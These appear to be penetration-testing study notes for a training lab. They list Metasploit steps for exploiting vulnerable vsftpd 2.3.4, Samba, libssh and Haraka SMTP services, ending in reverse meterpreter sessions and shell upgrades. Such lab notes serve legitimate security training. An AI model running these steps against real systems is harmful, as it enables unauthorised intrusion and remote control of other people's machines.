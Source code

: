 ### Exploiting A Vulnerable FTP Server 21 V2.3.4
- service postgresql start
- msfconsole
- workspace -a vsdtpd
- sb_nmap -sS -sV -O <target-ip>
- services
- analyze
- search vsftpd
- use set run
- ctrl+Z
- search shell_to_meterpreter- use set run

### Exploiting SAMBA 445 on TCP, 139 on netbios
- db_nmap -sS -sV -O <target-ip>
- search type:exploit name:samba
- is_known_pipename
- use set run
- upgrade to meterpreter
- search shell_to_meterpreter
- use set run
- sessions

### Exploiting A Vulnerable SSH Server 22 TCP libssh V0.6.0-V0.8.0
- service postgresql start
- workspace -a libssh
- db_nmap -sS -sV -O <target-ip>
- services
- search libssh_auth_bypass
- use set run
- set spawn_pty true
- sessions
- cat /etc/*release
- unmae -r For Kernal Version
- upgrade the shell to meterpreter
- search shell_to_meterpreter
- use set run

### Exploiting Vulnerable SMTP Server TCP 25, 465, 587
- SMTP Haraka V2.8.9 and prior version
- service postgresql start
- workspace -a haraka
- search- setg rhosts- db_nmap -sV -sS -O <target-ip>
- search type:exploit name:haraka
- use set run
- set srvport 9898
- set email_to root@attackdefense.test
- set payload linux/x64/meterpreter_reverse_http
- set lhost eth1
- run- sysinfo
- getuid
